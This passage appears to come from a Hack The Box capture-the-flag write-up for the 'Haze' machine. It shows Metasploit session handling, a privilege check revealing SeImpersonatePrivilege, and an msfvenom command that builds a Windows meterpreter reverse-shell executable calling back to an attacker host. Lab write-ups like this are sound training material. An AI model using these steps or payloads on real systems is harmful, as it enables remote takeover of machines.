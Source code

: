 ![Screenshot 2025-03-31 at 9.47.24 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_9.47.24_PM.png)

After getting the powershell we will upgrade to meterpreter

```bash
sessions -i 1
```

```bash
whoami /priv
```

CTRL + Z  → y

![Screenshot 2025-03-31 at 10.00.16 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_10.00.16_PM.png)

So now we know that we have `SeImpersonatePrivilege`

There are many ways you can do this

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=4444 -f exe -o shell.exe
```
